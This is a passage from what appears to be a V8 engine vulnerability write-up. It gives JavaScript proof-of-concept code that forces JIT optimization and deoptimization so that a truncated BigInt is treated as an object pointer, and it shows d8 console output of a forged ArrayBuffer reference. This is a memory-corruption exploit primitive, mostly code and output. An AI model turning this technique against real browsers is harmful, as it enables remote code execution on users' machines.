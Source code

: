 ```javascript
let addr = BigInt(0x11111111);

function setAddress(val) {
  addr = BigInt(val);
}

function f(x) {
  let y = BigInt.asUintN(49, addr);
  let a = 111;
  try {
    var obj = {};
    obj[x] = y;
    return obj;
  }
  catch(_){ return y}
}

function compileOnce() {
  f("foo");
  %PrepareFunctionForOptimization(f);
  f("foo");
  f("foo");
  f("foo");
  f("foo");
  %OptimizeFunctionOnNextCall(f);
  f("foo");
  return f("boom"); // deopt reason : wrong name
}
```

To experiment, we simply simulate the infoleak primitive by simply using a runtime function `%DebugPrint` and adding an ArrayBuffer to the object. That should not be possible since the javascript code is actually adding a truncated BigInt.

```text
d8> var a = new ArrayBuffer(8); %DebugPrint(a);
0x003d5ef8ab79 <ArrayBuffer map = 00000354B09C2191>
[object ArrayBuffer]
d8> setAddress(0x003d5ef8ab79)
undefined
d8> var badobj = compileOnce()
undefined
d8> %DebugPrint(badobj)
0x003d5ef8d159 <Object map = 00000354B09C9F81>
{boom: [object ArrayBuffer]}
d8> badobj.boom
[object ArrayBuffer]
```

<s>Et voila!</s> Sweet as!

### Variants
